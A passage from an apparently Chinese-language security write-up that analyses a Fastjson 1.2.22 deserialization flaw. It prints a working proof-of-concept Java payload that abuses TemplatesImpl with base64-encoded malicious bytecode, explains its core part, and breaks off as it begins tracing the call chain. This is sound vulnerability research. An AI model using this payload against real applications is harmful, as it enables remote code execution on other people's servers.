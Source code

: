             String result = Base64.encodeBase64String(bos.toByteArray());

            return result;
        }

        public static void bad_method() {
            ParserConfig config = new ParserConfig();
            final String fileSeparator = System.getProperty("file.separator");
            String evil_path = "D:\\Java-App\\fastjson-1.2.22\\target\\classes\\ka1n4t\\poc\\evilClass1.class";
            String evil_code = readClass(evil_path);

            final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

            String text1 = "{\"@type\":\"" + NASTY_CLASS +
                    "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                    "'_name':'a.b'," +
                    "'_tfactory':{ }," +
                    "\"_outputProperties\":{ }}\n";
            System.out.println(text1);
            Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        }

        public static void main(String args[]) {
            bad_method();
        }

    }

核心部分：

    String text1 = "{\"@type\":\"" + NASTY_CLASS +
                    "\",\"_bytecodes\":[\""+evil_code+"\"]," +
                    "'_name':'a.b'," +
                    "'_tfactory':{ }," +
                    "\"_outputProperties\":{ }}\n";

    Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);

\_bytecodes是经过base64编码的evilClass1的字节码文件，NASTY\_CLASS是TemplatesImpl类。总结一下这个payload，利用JSON.parseObject反序列化TemplatesImpl类，其中\_bytecodes属性是经过base64编码的恶意类字节码文件。

#### 调试分析

下面来分析一下反序列化TemplatesImpl的调用链，首先经过java的反射机制，到达TemplatesImpl类，调用其getOutputProperties()方法：
